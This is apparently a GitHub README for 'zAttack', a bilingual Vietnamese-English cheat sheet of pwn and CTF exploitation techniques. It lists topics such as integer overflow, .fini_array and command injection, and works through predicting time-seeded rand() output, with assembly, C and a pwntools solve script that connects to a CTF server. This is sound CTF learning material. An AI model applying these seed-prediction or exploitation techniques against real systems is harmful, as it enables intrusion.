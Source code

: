 # zAttack
- Technique and subTechnique support pwnable ctf and exploit.

## [0] Overview
- Integer Overflow
- &environ
- _rtld_global
- Canary global TLS
- .fini_array
- Type of Confusion | Type Error
- Command Injection
- Path Traversal
- CGI File Binary
- Logic BUG: seed, permission, ...
    * __RANDOM => seed__: dùng seed có giá trị là thời gian thực lúc chạy chương trình, vì vậy tạo 1 script chạy cùng là xong

    * Nhiệm vụ của srand(x) đưa ra seed x rồi rand() dựa vào x đưa ra số a. Khi đó a là seed cho lần gọi rand() tiếp theo (cứ như thế tiếp tục). Do vậy VD trong vòng lặp thời gian 1 giây rand() dùng seed cũ liên tục nên nó không bao giờ ra số khác nhau trong khoảng thời gian đó.

    * VD: [Meshuggah](https://qbao.home.blog/2020/04/30/start-to-pwnb01lers-ctf/) .
    ```bash
    asm:
        mov edi, 0      ; time
        call _time
        add eax, 2
        mov edi, eax    ; seed
        call _srand
    ```

    ```C
    int main(){
        int seed = time(0) + 2;
        srand(seed);
        for(int i = 0; i < 100; i++)
            printf("%d\n", rand());
        return 0;
    }
    ```
    * Code sample python
    ```python
    from ctypes import CDLL
    from ctypes.util import find_library

    libc = CDLL(find_library("c"))

    libc.srand(0x5a35b162)
    print(libc.rand(), libc.rand(), libc.rand())
    ```
    ```python
    #!/usr/bin/env python3
    from pwn import *
    import random
    import time
    import calendar
    import datetime
    from ctypes import *
    import random
    elf = ELF("./random")
    libc = CDLL("/usr/lib/x86_64-linux-gnu/libc.so.6")
    # p = elf.process()
    p = remote("challs.tfcctf.com", "32615")
    context.update(binary=elf, log_level="DEBUG")
    # gdb.attach(p, '''
    # 	b *vuln
    # 	''')

    current_GMT = time.gmtime()
    time_stamp = calendar.timegm(current_GMT)
    libc.srand(time_stamp)
    print(p.recvline())
    for i in range(10):
        number = libc.rand()
        p.sendline(str(number).encode())


    p.interactive()
    ```

## [1] References:
- https://dreamhack.io/
